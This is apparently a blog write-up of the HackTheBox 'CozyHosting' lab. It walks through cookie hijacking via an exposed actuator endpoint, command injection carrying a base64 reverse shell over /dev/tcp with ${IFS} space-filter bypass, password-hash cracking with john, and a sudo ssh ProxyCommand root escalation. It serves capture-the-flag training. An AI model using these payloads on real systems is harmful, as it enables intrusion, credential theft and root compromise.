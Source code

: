 ```yaml
---
layout: page
title:  "CozyHosting-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: jekyll update
thumb: /assets/images/logos/box-cozyhosting.png
---
```


# CozyHosting

HackTheBox: Easy

> Cozyhosting is an Ubuntu system when you can practices technique as cookie hijacking, reverse shells, password hashing.
> 

## 1: Enumeration

- Check the active connection

![Untitled]({{ '/assets/images/cozyhosting/Untitled.png' | relative_url }})

- Scanning ports

![Untitled](/assets/images/cozyhosting/Untitled%201.png)

We can see there’s a web services running in 80 port and ssh service in 22 port it could be a way to get in later.

- Dirsearch looking for enable directories

![Untitled](/assets/images/cozyhosting/Untitled%202.png)

Something interesting in /actuator/sessions

## 2: Looking around

- There is a possible cookie hijacking vulnerability.

![Untitled](/assets/images/cozyhosting/Untitled%203.png)

- We can use BurpSuite

![Untitled](/assets/images/cozyhosting/Untitled%204.png)

- We simulate the log in process and inject the cookie, we change it at the right side bar

![Untitled](/assets/images/cozyhosting/Untitled%205.png)

![Untitled](/assets/images/cozyhosting/Untitled%206.png)

## 3: User flag

- It executes commands, so get can make a rev shell to get access

```bash
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

```bash
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

${IFS%??} For blank spaces and convert it to url format

- We use nc to receive the connection and make the shell stable like this

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

We use cat etc/passwd for user

- We’ve got and .jar with db credentials, using python

```bash
python3 -m http.server 7777
```

```bash
wget http://10.10.00.000:7777/<file_name>
```

- Look for creds:

![Untitled](/assets/images/cozyhosting/Untitled%207.png)

```bash
psql -h 127.0.0.1 -U postgres
```

```bash
\c cozyhosting
```

```bash
\d
select * from users;
```

We got the hash for admin, we solve using

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

We use ssh to break into

```bash
ssh josh@10.10.11.230
```

## 4: Priv esc

- Using sudo -l

![Untitled](/assets/images/cozyhosting/Untitled%208.png)

- In [https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo) We find a way to get root access easily

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![Untitled](/assets/images/cozyhosting/Untitled%209.png)

- Machine pwned
![Untitled](/assets/images/cozyhosting/Untitled%2010.png)

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
